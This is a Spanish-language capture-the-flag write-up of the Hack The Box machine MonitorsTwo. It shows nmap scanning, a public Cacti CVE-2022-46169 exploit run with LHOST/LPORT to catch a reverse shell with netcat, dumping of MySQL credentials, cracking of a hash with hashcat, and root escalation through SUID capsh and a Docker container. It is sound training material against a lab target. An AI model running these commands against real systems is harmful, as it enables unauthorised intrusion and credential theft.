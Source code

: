 ```yaml
---
layout: single
title: MonitorsTwo - Machines - Hack The Box
excerpt: "MonitorsTwo es una máquina de dificultad fácil en la plataforma de HTB. Para acceder debemos explotar una vulnerabilidad en Cacti, accederemos a un contenedor en el que tendremos que elevar privilegios mediante un binario SUID, conseguiremos acceso a la máquina principal crackeando un hash obtenido mediante la enumeración de la base de datos MySQL. Para escalar privilegios en la máquina principal, encontraremos una vulnerabilidad en Docker en la cual podremos ejecutar comandos del contenedor en la máquina principal obteniendo así root gracias a la bash con permisos SUID.."
date: 2023-08-23
classes: wide
header:
  teaser: /assets/images/htb-machines-monitorstwo/monitorstwo.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
  - machines
 
tags:  
  - cve-2022-46169
  - RCE
  - hashcat
  - limpeas
  - GTFOBins
  
---
```


![](/assets/images/htb-machines-monitorstwo/monitorstwo.png)

## 1. Enumeración 

Inicialmos con un escaneo de servicios y versiones hacia el objetivo.

•	nmap -sC -sV 10.10.11.211  	

El escaneo inicial de nmap muestra que hay dos puertos abiertos en la máquina

•	HTTP (80)

•	SSH (22)

![](/assets/images/htb-machines-monitorstwo/monitorstwo2.png)

Procedemos a navegar hacia el servicio web por el puerto 80.

![](/assets/images/htb-machines-monitorstwo/monitorstwo3.png)

Se identifica un servicio web para monitoreo llamado CACTI en su versión 1.2.22.

## 2. Explotación

Se verificó si la versión 1.2.22 de Cacti la cual es vulnerable y se encontró un exploit (CVE-2022-46169).

•	https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22.git

![](/assets/images/htb-machines-monitorstwo/monitorstwo4.png)

Este exploit permite la ejecución remota de código no autenticado en la máquina.

Procedemos a copiar el repositorio a nuestra máquina.

•	git clone https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22.git

![](/assets/images/htb-machines-monitorstwo/monitorstwo5.png)

Nos dirigimos donde se encuentra nuestro exploit escrito en Python.

![](/assets/images/htb-machines-monitorstwo/monitorstwo6.png)

En las especificaciones de uso, vemos que se necesita invocar el exploit, como parámetro pasamos -u es la URL del target, --LHOST nuestra IP y –LPORT el puerto de escucha de nuestra máquina. 

![](/assets/images/htb-machines-monitorstwo/monitorstwo7.png)

Adicionalmente debemos estar a la escucha con NETCAT del puerto que asignamos anteriormente 

•	nc -nlvp 443

![](/assets/images/htb-machines-monitorstwo/monitorstwo8.png)

Ejecutamos el explloit

•	python3 CVE-2022-46169.py  -u http://IP_TARGET --LHOST=MY_IP --LPORT=443

![](/assets/images/htb-machines-monitorstwo/monitorstwo9.png)

Vemos como obtenemos una Shell de la maquina victima como usuario www-data.

![](/assets/images/htb-machines-monitorstwo/monitorstwo10.png)

Miramos los permisos SUID.

•	ls -la

Encontrado entrypoint.sh en el directorio raíz.

![](/assets/images/htb-machines-monitorstwo/monitorstwo11.png)

Procedemos a leer el archivo.

•	cat /entrypoint.sh

Encontramos el nombre de usuario y la contraseña para MySQL.

![](/assets/images/htb-machines-monitorstwo/monitorstwo12.png)

Intentamos autenticarnos en MYSQL para comenzar a revisar el contenido de la BD.

•	mysql --host=db --user=root --password=root cacti -e "show table

![](/assets/images/htb-machines-monitorstwo/monitorstwo13.png)

Observamos la tabla user_auth.

•	user_auth puede tener credenciales.

![](/assets/images/htb-machines-monitorstwo/monitorstwo14.png)

Intentamos leer el contenido de la tabla.

•	mysql --host=db --user=root --password=root cacti -e "select * from user_auth

Se encontró una contraseña (hash) para el usuario Marcus.

![](/assets/images/htb-machines-monitorstwo/monitorstwo15.png)

Guardamos nuestro hash e intentar crakearlo con HASHCAT.

•	hashcat -m 3200 hash /usr/share/wordlists/rockyou.txt  

![](/assets/images/htb-machines-monitorstwo/monitorstwo16.png)

Iniciamos sesión por SSH con las credenciales obtenidas y capturamos nuestra primera bandera como usuario estandar.

![](/assets/images/htb-machines-monitorstwo/monitorstwo17.png)

## 3. Escalación de Privilegios.

Descargamos Linpeas en la maquina victima para intentar encontrar una vía de explotación.

![](/assets/images/htb-machines-monitorstwo/monitorstwo18.png)

Otorgamos permisos de ejecución.

![](/assets/images/htb-machines-monitorstwo/monitorstwo19.png)

Encontramos estas dos rutas marcadas de color rojo. Nos dirigimos a la ruta /var/mail e intentamos leer el archivo marcus.

![](/assets/images/htb-machines-monitorstwo/monitorstwo20.png)

Encontramos que es un correo donde hablan de unas vulnerabilidades que encontraron. Una de ellas es una vulnerabilidad de Docker.

Debemos antes, encontrar la ruta de los contenedores mediante el comando findmnt.

![](/assets/images/htb-machines-monitorstwo/monitorstwo21.png)

En el contenedor debemos escalar privilegios.

Miramos los permisos SUID y encontramos el comando capsh.

Buscamos en GTFOBins y conseguimos root en el contenedor.

•	https://gtfobins.github.io/gtfobins/capsh/

![](/assets/images/htb-machines-monitorstwo/monitorstwo22.png)

En el contenedor, como root debemos poner la bash con permisos SUID.

![](/assets/images/htb-machines-monitorstwo/monitorstwo23.png)

En la máquina principal ejecutamos la bash del contenedor para convertirnos en root.

•	Ejecute “./bash -p” para obtener root en la máquina.

Posteriormente obtenemos nuestra flag de root.

![](/assets/images/htb-machines-monitorstwo/monitorstwo24.png)


